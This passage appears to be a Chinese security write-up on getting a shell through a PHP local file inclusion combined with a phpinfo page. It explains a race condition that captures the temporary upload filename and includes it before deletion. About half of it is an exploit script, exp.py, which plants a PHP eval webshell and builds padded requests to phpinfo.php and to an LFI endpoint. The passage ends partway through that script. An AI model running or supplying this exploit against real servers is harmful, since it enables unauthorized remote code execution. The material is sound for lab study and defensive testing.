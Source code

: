 * 利用原理

验证了phpinfo的特性确实存在，所以在文件包含漏洞找不到可利用的文件时，我们就可以利用这一特性，找到并提取临时文件名，然后包含之即可Getshell。

但文件包含漏洞和phpinfo页面通常是两个页面，理论上我们需要先发送数据包给phpinfo页面，然后从返回页面中匹配出临时文件名，再将这个文件名发送给文件包含漏洞页面，进行getshell。在第一个请求结束时，临时文件就被删除了，第二个请求自然也就无法进行包含。

* 利用过程

这个时候就需要用到条件竞争，具体原理和过程如下：

（1）发送包含了webshell的上传数据包给phpinfo页面，这个数据包的header、get等位置需要塞满垃圾数据

（2）因为phpinfo页面会将所有数据都打印出来，1中的垃圾数据会将整个phpinfo页面撑得非常大

（3）php默认的输出缓冲区大小为4096，可以理解为php每次返回4096个字节给socket连接

（4）所以，我们直接操作原生socket，每次读取4096个字节。只要读取到的字符里包含临时文件名，就立即发送第二个数据包

（5）此时，第一个数据包的socket连接实际上还没结束，因为php还在继续每次输出4096个字节，所以临时文件此时还没有删除

（6）利用这个时间差，第二个数据包，也就是文件包含漏洞的利用，即可成功包含临时文件，最终getshell

（参考ph牛：https://github.com/vulhub/vulhub/tree/master/php/inclusion ）

#### getshell

利用ph牛的代码，不用重复的造轮子，直接更改脚本主要的几个地方就可以成功运行利用，如上传的恶意文件内容、phpinfo.php和index.php相应文件的文件名和位置、系统临时文件写入目录等

exp.py:

```python
#!/usr/bin/python
#python version 2.7

import sys
import threading
import socket

def setup(host, port):
    TAG = "Security Test"
    PAYLOAD = """%sr
<?php file_put_contents('/tmp/Qftm', '<?php eval($_REQUEST[Qftm])?>')?>r""" % TAG
    # PAYLOAD = """%sr
    # <?php file_put_contents('/var/www/html/Qftm.php', '<?php eval($_REQUEST[Qftm])?>')?>r""" % TAG
    REQ1_DATA = """-----------------------------7dbff1ded0714r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"r
Content-Type: text/plainr
r
%s
-----------------------------7dbff1ded0714--r""" % PAYLOAD
    padding = "A" * 5000
    REQ1 = """POST /phpinfo.php?a=""" + padding + """ HTTP/1.1r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie=""" + padding + """r
HTTP_ACCEPT: """ + padding + """r
HTTP_USER_AGENT: """ + padding + """r
HTTP_ACCEPT_LANGUAGE: """ + padding + """r
HTTP_PRAGMA: """ + padding + """r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714r
Content-Length: %sr
Host: %sr
r
%s""" % (len(REQ1_DATA), host, REQ1_DATA)
    # modify this to suit the LFI script
    LFIREQ = """GET /index.php?file=%s HTTP/1.1r
User-Agent: Mozilla/4.0r
Proxy-Connection: Keep-Aliver
Host: %sr
r
```